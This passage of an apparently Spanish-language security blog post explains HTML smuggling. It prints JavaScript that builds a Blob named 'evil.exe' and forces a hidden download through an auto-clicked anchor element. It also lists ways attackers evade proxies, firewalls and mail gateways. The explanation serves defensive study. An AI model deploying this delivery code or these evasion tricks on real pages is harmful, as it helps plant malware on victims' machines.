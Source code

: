 Como hemos observado, el archivo HTML malicioso puede distribuir malware en la máquina de la víctima a través de varios métodos. En este escenario, todo el payload malicioso está codificado en base64 e incrustado directamente dentro del archivo HTML. Podemos ver la variable `file` que contiene el payload.

La función `base64ToArrayBuffer` convierte el payload codificado en los bytes reales que componen el archivo malicioso.

Es importante destacar que los atacantes pueden idear métodos aún más complejos para distribuir malware. Por ejemplo, podrían dividir el payload en varias partes, recuperar partes de forma remota o utilizar diferentes estándares de codificación y técnicas de cifrado. Estas estrategias aumentan significativamente la probabilidad de eludir medidas de seguridad como proxies web, firewalls y gateways de correo electrónico.

#### Blob de JavaScript

```javascript
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'evil.exe';
```

Este es el núcleo del ataque. El objeto Blob permite la creación de un archivo dentro del navegador utilizando código JavaScript. Así es como lo describe Mozilla:

```text
"La interfaz Blob representa un blob, que es un objeto similar a un archivo que contiene datos crudos e inmutables; pueden leerse como texto o datos binarios, o convertirse en un ReadableStream para que sus métodos puedan usarse para procesar los datos.
Los blobs pueden representar datos que no están necesariamente en un formato nativo de JavaScript. La interfaz File se basa en Blob, heredando la funcionalidad de blob y ampliándola para admitir archivos en el sistema del usuario."
```

<img src="/posts/html-smuggling/static/blob-struct.png" alt="dónde están las piezas" style="display: block; margin-left: auto; margin-right: auto; width: 100%; height: auto;">
<br>
Por lo tanto, en lugar de confiar en el servidor web para entregar un archivo, se puede crear un Blob localmente utilizando JavaScript. Por ejemplo, un archivo "evil.exe" que normalmente se descargaría desde un servidor, puede ensamblarse y descargarse directamente en el sistema objetivo utilizando una etiqueta de anclaje HTML con el atributo de descarga.

#### Descarga mediante anclaje HTML

```javascript 
if (window.navigator.msSaveOrOpenBlob) {
    window.navigator.msSaveOrOpenBlob(blob, fileName);
} else {
    var a = document.createElement('a');
    console.log(a);
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
}
```
